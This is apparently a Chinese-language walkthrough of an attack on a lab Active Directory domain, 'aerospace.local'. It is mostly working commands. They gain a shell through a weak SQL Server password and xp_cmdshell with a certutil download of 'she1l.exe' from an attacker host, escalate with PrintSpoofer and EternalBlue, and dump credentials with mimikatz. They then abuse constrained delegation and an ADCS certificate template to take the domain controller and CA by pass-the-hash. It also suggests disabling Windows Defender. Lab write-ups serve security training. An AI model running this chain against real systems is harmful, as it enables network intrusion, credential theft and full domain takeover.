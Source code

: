 ## Web01

部署好全部虚拟机后，首先扫描本地存活主机，以发现 Web01 的地址：

```
./fscan.exe -np -h 192.168.162.1/24
# 因为 Web01 开了防火墙，所以需要指定 -np 禁止 ping
```

![image-20240222121702332](https://img.dkdun.cn/v1/2024/2/34784a98fe1380bd.webp)

先访问 80 端口：

![image-20240222115713142](https://img.dkdun.cn/v1/2024/2/f0b867f46d6da9e9.webp)

1433 端口上存在 SQL Server 弱口令，用sa/123456即可成功登录。然后通过 xp_cmdshell 执行系统命令即可：

```sql
/* 判断当前是否为 DBA 权限，返回 1 则可以提权 */
SELECT IS_SRVROLEMEMBER('sysadmin');

/* 查看是否存在 xp_cmdshell，返回 1 则存在 */
SELECT COUNT(*) FROM master.dbo.sysobjects WHERE xtype='x' AND name='xp_cmdshell'

/* 开启 xp_cmdshell */
EXEC sp_configure 'show advanced options', 1;RECONFIGURE;EXEC sp_configure 'xp_cmdshell', 1;RECONFIGURE;

/* 执行系统命令 */
EXEC master.dbo.xp_cmdshell 'cd C:\Users\Public & certutil -urlcache -split -f http://192.168.162.130:8080/she1l.exe';

EXEC master.dbo.xp_cmdshell 'C:\Users\Public\she1l.exe'
```

成功上线 Web01 这台服务器：

![image-20240222121422282](https://img.dkdun.cn/v1/2024/2/737e22ed73e35118.webp)

由于此时是服务账户权限，我们可以通过 Windows 令牌操纵技术获取 System 权限。上传 PrintSpoofer.exe，然后执行以下命令即可提升至系统权限：

```
PrintSpoofer.exe -i -c cmd
```

![image-20240222122220971](https://img.dkdun.cn/v1/2024/2/9d6487497578eee0.webp)

## 内网存活扫描

我们发现一个内网网段 172.22.10.1/24：

![image-20240222122300181](https://img.dkdun.cn/v1/2024/2/f7d8aaba9193dcf3.webp)

上传 fscan 扫描内网：

```
C:\Users\Public\fscan.exe -h 172.22.10.1/
```

![image-20240222122441289](https://img.dkdun.cn/v1/2024/2/797428d3536a1db1.webp)

![image-20240222122451598](https://img.dkdun.cn/v1/2024/2/1c7b664553211167.webp)

发现内网存活的主机，并且存在域环境，域名为 aerospace.local，域控制器为 DC01.aerospace.local，IP 为 172.22.10.11。

此外，还存在 ADCS，证书颁发机构为 CA.aerospace.local。

## WIN-PC8086

WIN-PC8086 这台域成员机器存在 MS17_010 漏洞，ip为 172.22.10.36，使用 msf 挂上代理，用 bind_tcp 类型的 payload 直接打：

```
use exploit/windows/smb/ms17_010_eternalblue
set payload windows/x64/meterpreter/bind_tcp
set rhosts 172.22.10.36
set lport 4444
run
```

成功获取 SYSTEM 权限：

![image-20240222122857732](https://img.dkdun.cn/v1/2024/2/dad938166543eb9f.webp)

由于这台机器位于域内，因此我们可以用他的机器账户收集域内信息。加载 kiwi 模块，抓取 WIN-PC8086 计算机账户的哈希值：

```
load kiwi
kiwi_cmd "sekurlsa::logonpasswords"
```

![image-20240222124817297](https://img.dkdun.cn/v1/2024/2/4624b26a0f7507d5.webp)

然后，使用 [Impacket](https://github.com/fortra/impacket) 套件中的 findDelegation.py 枚举域内委派关系：

```bash
python3 findDelegation.py aerospace.local/WIN-PC8086\$ -hashes :680f2285800a0da67b4d6aa443ed0ab2 -dc-ip 172.22.10.11
```

![image-20240222125323210](https://img.dkdun.cn/v1/2024/2/672be978d5b0917f.webp)

发现当前的 WIN-PC8086 机器对域内 WIN-PC8098 这台机器的 HOST 和 CIFS 服务具有约束委派权限，因此可以通过约束委派获取 WIN-PC8098 的权限。

## WIN-PC8098

我们使用 [Impacket](https://github.com/fortra/impacket) 套件中的 getST.py 脚本进行约束委派攻击。执行以下命令，使用 WIN-PC8086 账户代表域管理员用户 Administrator 获取 WIN-PC8098 机器上 CIFS 服务的票据：

```bash
python3 getST.py aerospace.local/WIN-PC8086\$ -hashes :680f2285800a0da67b4d6aa443ed0ab2 -spn CIFS/WIN-PC8098.aerospace.local -impersonate Administrator -dc-ip 172.22.10.11
```

![image-20240222125738235](https://img.dkdun.cn/v1/2024/2/8a291b2702e876ba.webp)

成功申请到票据后，通过设置环境变量 `KRB5CCNAME` 来使用该票据，并通过 wmiexec.py 获取 WIN-PC8098 机器的最高权限：

```bash
export KRB5CCNAME='Administrator@CIFS_WIN-PC8098.aerospace.local@AEROSPACE.LOCAL.ccache'
python3 wmiexec.py -k aerospace.local/Administrator@WIN-PC8098.aerospace.local -no-pass -dc-ip 172.22.10.11
```

![image-20240222130846243](https://img.dkdun.cn/v1/2024/2/9aa8a6bb936876cc.webp)

在 WIN-PC8098 机器上发现了一个域用户 liuyuhua 的进程：

![image-20240222132551554](https://img.dkdun.cn/v1/2024/2/17b3a946d05fde92.webp)

然后考虑上传 mimikatz 抓取该用户的哈希值。由于该机器开启了 Windows defender，可以考虑新建一个管理员用户登录到远程桌面，然后将 Windows defender 关闭后在运行 mimikatz。

抓取到 liuyuhua 的哈希值为 :***\**\***：

![、](https://img.dkdun.cn/v1/2024/2/d5fd97f75d2f8a51.webp)

## DC01

由于环境中存在 ADCS 服务，因此考虑通过 [Certify](https://github.com/GhostPack/Certify) 枚举错误配置。还是在 WIN-PC8098 机器上，，然后执行以下命令：

```
Certify.exe find /vulnerable
```

![image-20240222134937394](https://img.dkdun.cn/v1/2024/2/110f1f141cdd15ee.webp)

发现一个名为 AeroUser 的证书模板，开启了 `CT_FLAG_ENROLLEE_SUPPLIES_SUBJECT` 标志，并且所有的域用户账户都有注册权限。那么我们可以以域内任何用户的身份请求证书，包括域管理员用户或域控制器的机器账户，并使用该证书获取合法用户的 TGT，一次实现域权限提升。

执行以下命令，通过 [Certipy](https://github.com/ly4k/Certipy) 工具为域管理员用户申请证书：

```bash
certipy-ad req -username liuyuhua@aerospace.local -hashes :******** -ca aerospace-CA-CA -target CA.aerospace.local -template AeroUser -upn Administrator@aerospace.local -dns DC01.aerospace.local -debug
```

![image-20240222140815015](https://img.dkdun.cn/v1/2024/2/9722474dc7c4a8d2.webp)

申请到了名为 administrator_dc01.pfx 的证书，然后执行以下命令，通过该证书进行 kerberos 身份验证，可以成功拿到域管理员用户的 TGT 票据和 NTLM 哈希：

```bash
certipy-ad auth -pfx administrator_dc01.pfx -dc-ip 172.22.10.11
```

![image-20240222141014583](https://img.dkdun.cn/v1/2024/2/e7b5591edbd69baa.webp)

可以看到，已经成功拿到了域管理员的 NTLM 哈希，接下来直接哈希传递即可获取域控制器权限了：

```BASH
python3 wmiexec.py aerospace.local/Administrator@dc01.aerospace.local -hashes ********:******** -dc-ip 172.22.10.11
```

![image-20240222141221545](https://img.dkdun.cn/v1/2024/2/946c9b079feee60d.webp)

## CA

同样是哈希传递，可以获取 CA 的权限：

```
python3 wmiexec.py aerospace.local/Administrator@ca.aerospace.local -hashes ********:******** -dc-ip 172.22.10.11
```

![image-20240222141327594](https://img.dkdun.cn/v1/2024/2/e20b7ddcd5f80727.webp)